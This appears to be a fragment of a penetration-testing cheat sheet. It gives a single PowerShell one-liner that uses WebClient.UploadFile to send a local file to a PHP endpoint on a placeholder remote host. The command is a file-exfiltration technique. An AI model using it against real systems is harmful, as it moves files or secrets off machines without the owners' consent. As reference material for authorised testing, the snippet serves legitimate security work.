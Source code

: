 ### upload file using POST request
```
powershell (New-Object System.Net.WebClient).UploadFile('http://<rhost>/<path>.php', '<absolutePathToFile>')
```

